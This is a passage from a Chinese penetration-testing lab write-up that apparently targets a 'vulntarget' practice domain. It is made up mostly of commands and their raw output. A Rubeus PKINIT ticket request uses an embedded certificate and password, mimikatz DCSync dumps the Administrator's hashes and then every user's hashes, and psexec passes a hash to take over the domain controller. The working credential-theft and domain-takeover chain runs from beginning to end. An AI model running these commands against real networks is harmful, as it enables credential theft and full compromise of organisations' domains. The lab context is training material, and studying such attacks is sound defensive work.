/certificate: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 /password:"wjqlMpIql3oojLvS" /domain:vulntarget.com /dc:DC.vulntarget.com /getcredentials /show /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=DC$
[*] Building AS-REQ (w/ PKINIT preauth) for: 'vulntarget.com\DC$'
[*] Using domain controller: 172.18.10.101:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/vulntarget.com
  ServiceRealm             :  VULNTARGET.COM
  UserName                 :  DC$
  UserRealm                :  VULNTARGET.COM
  StartTime                :  2023/9/6 17:38:11
  EndTime                  :  2023/9/7 3:38:11
  RenewTill                :  2023/9/13 17:38:11
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  J1hAiEauSdM3TEYMHtzrIA==
  ASREP (key)              :  75A491DF58A016F4F7B89FB56B77F64E

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 01D10C6F5116D56BC9471794988B1240
```

klist查看凭证

```bash
C:\Users\ex_mail\Desktop>klist

当前登录 ID 是 0:0x1ac171

缓存的票证: (1)

#0>     客户端: DC$ @ VULNTARGET.COM
        服务器: krbtgt/vulntarget.com @ VULNTARGET.COM
        Kerberos 票证加密类型: AES-256-CTS-HMAC-SHA1-96
        票证标志 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        开始时间: 9/6/2023 17:38:11 (本地)
        结束时间:   9/7/2023 3:38:11 (本地)
        续订时间: 9/13/2023 17:38:11 (本地)
        会话密钥类型: RSADSI RC4-HMAC(NT)
        缓存标志: 0x1 -> PRIMARY
        调用的 KDC:
```

DCsync

```bash
C:\Users\ex_mail\Desktop\x64>mimikatz.exe "lsadump::dcsync /domain:vulntarget.com /user:vulntarget\Administrator" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:vulntarget.com /user:vulntarget\Administrator
[DC] 'vulntarget.com' will be the domain
[DC] 'DC.vulntarget.com' will be the DC server
[DC] 'vulntarget\Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
User Principal Name  : Administrator@vulntarget.com
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 1601/1/1 8:00:00
Password last change : 2023/9/5 12:52:37
Object Security ID   : S-1-5-21-1172579584-1949262653-3015909612-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 570a9a65db8fba761c1008a51d4c95ab
    ntlm- 0: 570a9a65db8fba761c1008a51d4c95ab
    ntlm- 1: a812b226a3f1a3b30ed06e866fffd8b2
    lm  - 0: fb330a1eee350e052d89e45815aec430

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 684a1b8a15a9d00ea63ff80930caa407

* Primary:Kerberos-Newer-Keys *
    Default Salt : VULNTARGET.COMAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 7f6e1e4dc5a4c81481052cd14d87f35f4fac97e9bdb1717c5d832401eaf653cd
      aes128_hmac       (4096) : b2059b4da6457e098de13434c644c366
      des_cbc_md5       (4096) : 62a4588a758abfc2

* Primary:Kerberos *
    Default Salt : VULNTARGET.COMAdministrator
    Credentials
      des_cbc_md5       : 62a4588a758abfc2

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  f91b9d62aa2a424d237aa9c71209b81d
    02  e8b2ea30bf842374f19f64e3cf8bbfe8
    03  813ae1cab20e9bcb12fc23a8e4fbe4b3
    04  f91b9d62aa2a424d237aa9c71209b81d
    05  4a815931f7a2396670a46c3ab7c8e62f
    06  a8bfad7bf59e66e0de9b95fc4e369749
    07  7c725afc150ae1b0326305d2c568ed00
    08  e17e2c047083e67911d7a478d29c5ba4
    09  8b7568ee369354e740bbeb27391738d3
    10  7007715eb1dcb2daaf2da400a2d19a3c
    11  daa4f451b2a047a638898527f7c92367
    12  e17e2c047083e67911d7a478d29c5ba4
    13  66a588fa6f0665ac23e7086e9c95a146
    14  761b011f823bdba7bc671e46bd66faf7
    15  4407df1814032a0f0c56a2aef72bc300
    16  5167cc30eb8cee9020836f634678cf91
    17  c7e24c6feb33b769829679648242eec3
    18  538bab58009060225294390df1e2fe68
    19  605c0e797a0e91b0c6042b1ba34834bc
    20  21980308346f49f0e1e87093fa96e61f
    21  af07251b8bcd9df055540d0efe0f268d
    22  a8a9971ec7901f276b9a8f3dd9c761fb
    23  07449c92dddcb63dd250e275f17f592e
    24  c0c25b8d2c2ac040e30cf0e64ef5be37
    25  43d14ecb25da0f6d3b5557b01e34c1a6
    26  305c9fae8cbb37bd531e9dd3d1bad3bc
    27  101512cde2b4e4ad46b77e7385fb5b48
    28  012dbf5ca8bd79a1167dd1a4b70b82d7
    29  352de268159462a342087ea6b311257f


mimikatz(commandline) # exit
Bye!
```

#### 内网渗透-导出所有用户hash

```shell
C:\Users\ex_mail\Desktop\x64>mimikatz.exe "lsadump::dcsync /domain:vulntarget.com /all /csv" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:vulntarget.com /all /csv
[DC] 'vulntarget.com' will be the domain
[DC] 'DC.vulntarget.com' will be the DC server
[DC] Exporting domain 'vulntarget.com'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
1635    HealthMailbox324b083    4b4ffdcde4888a7976ce3b5970014c21        66048
502     krbtgt  6492a5f8abf4b12808a4c5b6b8a0a7b6        514
1636    HealthMailbox7fad0b0    c3a62c217f16f57ec5673bd42c0c90e7        66048
1637    HealthMailbox0b98514    11d94e3e9a07cbaa73517f930451f3eb        66048
1638    HealthMailbox02099d4    05b97fa12293cc71294485b58781ef4d        66048
1639    HealthMailbox269dbd7    e61cb47356079fdfbd890710eb59c47a        66048
1640    HealthMailboxa71c8b5    c73d0fe3ec12628a8195a17276efce0c        66048
1641    HealthMailbox133a136    7354d7dd641c82baee261a62922b63ad        66048
1642    HealthMailboxeeec698    051d56b0ebe63f02d21691f0fb878845        66048
1643    HealthMailboxdc25fcc    5252feb90be39663ad2c562029805bff        66048
1601    ex_mail 3870db779ee524bae507f040c844d7bf        66048
500     Administrator   570a9a65db8fba761c1008a51d4c95ab        512
1602    EXCHANGE$       fc35b10255a4c517f6eeed9ea3c74729        4096
1633    HealthMailbox19eb354    2d05204425b9f08131113c27750be2c8        66048
1634    HealthMailbox602c5ff    5b1c0a9a8576cfd3f30e7575b046cb06        66048
3101    t1sts   579da618cfbfa85247acf1f800a280a4        512
1000    DC$     01d10c6f5116d56bc9471794988b1240        532480

mimikatz(commandline) # exit
Bye!
```

# 内网渗透-域控

```shell
proxychains4 -q python3 psexec.py vulntarget.com/Administrator@172.18.10.101 -hashes :570a9a65db8fba761c1008a51d4c95ab -codec gbk
```

自己写个flag开心一下吧


## 靶场总结
通过查看星期五靶场的WP，发现它是通过CVE-2022–26923来进行的攻击，有时间可以试试。

